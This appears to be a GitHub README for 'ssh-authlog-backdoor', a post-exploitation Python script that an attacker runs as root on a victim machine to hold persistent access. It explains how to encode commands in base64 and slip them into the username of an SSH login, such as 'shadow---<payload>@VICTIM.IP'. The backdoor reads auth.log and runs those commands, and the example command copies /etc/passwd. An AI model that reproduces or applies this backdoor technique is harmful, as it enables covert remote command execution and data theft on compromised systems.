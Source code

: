 # ssh-authlog-backdoor

A post exploit python script that watches auth.log for a keyword then executes base64 encoded commands.  


## How to use

1. Execute the script as root on the victim box.

2. Encode a command in base64 by using an online service or how ever you can get base64. https://www.base64encode.org/
   Example
   ``` cat /etc/passwd > /tmp/test ```
   is
   ```Y2F0IC9ldGMvcGFzc3dkID4gL3RtcC90ZXN0```
3. From an attacking box initiate an ssh connection as the user ```shadow---``` + ```base64 encoded command```
   Full example ```ssh shadow---Y2F0IC9ldGMvcGFzc3dkID4gL3RtcC90ZXN0@VICTIM.IP``` 
   
 
